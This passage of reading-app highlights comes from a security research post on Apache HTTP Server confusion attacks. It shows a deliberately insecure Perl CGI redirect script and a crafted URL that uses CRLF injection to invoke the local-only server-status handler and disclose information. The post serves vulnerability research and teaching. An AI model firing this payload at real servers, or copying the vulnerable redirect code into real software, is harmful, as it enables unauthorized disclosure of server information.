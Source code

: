 

examples are all based on this insecure CRLF Injection for the purpose of demonstration:
 1 
 2 
 3 
 4 
 5 
 6 
 7 
 8 
 9 
 #!/usr/bin/perl 
 use CGI; 
 my $q = CGI->new; 
 my $redir = $q->param("r"); 
 if ($redir =~ m{^https?://}) { 
 print "Location: $redir\n"; 
 } 
 print "Content-Type: text/html\n\n"; [](https://read.readwise.io/read/01jnnke81ewaf2c315f1j2tc1s)



✔️ 3-2-1. Arbitrary Handler to Information Disclosure [](https://read.readwise.io/read/01jnnked0fqxcssq1901hy0sh4)



Starting with invoking an arbitrary handler to disclose information, we use the built-in `server-status` handler in Apache HTTP Server, which is typically only allowed to be accessed locally:
 1 
 2 
 3 
 4 
 <Location /server-status> 
 SetHandler server-status 
 Require local 
 </Location> [](https://read.readwise.io/read/01jnnkfg4bgnnw4w8md6jhy9v8)



With the ability to invoke any handler, it becomes possible to overwrite the `Content-Type` to access sensitive information [](https://read.readwise.io/read/01jnnkg1m61kk2k41wbs5asb5x)



> http://server/cgi-bin/redir.cgi?r=http:// %0d%0a 
 > ***Location:/ooo*** %0d%0a 
 > ***Content-Type:server-status*** %0d%0a 
 > %0d%0a
 ![](https://blog.orange.tw/posts/2024-08-confusion-attacks-en/dacded9bea644dff-10.png) [](https://read.readwise.io/read/01jnnkga8cqja868nkc96jxttm)



✔️ 3-2-2. Arbitrary Handler to Misinterpret Scripts [](https://read.readwise.io/read/01jnnkhg6wjxceape99v3cw02h)



